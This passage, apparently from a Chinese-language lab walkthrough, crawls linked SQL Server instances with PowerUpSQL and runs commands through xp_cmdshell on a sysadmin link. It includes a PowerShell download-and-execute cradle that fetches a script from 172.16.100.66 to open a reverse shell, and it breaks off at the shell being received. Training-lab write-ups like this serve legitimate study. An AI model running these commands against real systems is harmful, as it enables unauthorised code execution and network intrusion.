 Version     : SQL Server 2017
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL.EU.EUROCORP.LOCAL}

Version     : SQL Server 2017
Instance    : EU-SQL
CustomQuery :
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

下面命令执行whoami命令，mysql实例(根据上面枚举到有权限的结果)指定```dcorp-mssql.dollarcorp.moneycorp.local```

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'whoami'"
```

执行
```
PS C:\ad\PowerUpSQL-master> Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'whoami'"


Version     : SQL Server 2017
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL.EU.EUROCORP.LOCAL}

Version     : SQL Server 2017
Instance    : EU-SQL
CustomQuery : {nt authority\network service, }
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

在最后一组的CustomQuery里打印出了whoami命令的执行结果：```nt authority\network service```

下面命令触发一个反弹shell
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1'')"'
```

收到反弹shell
```
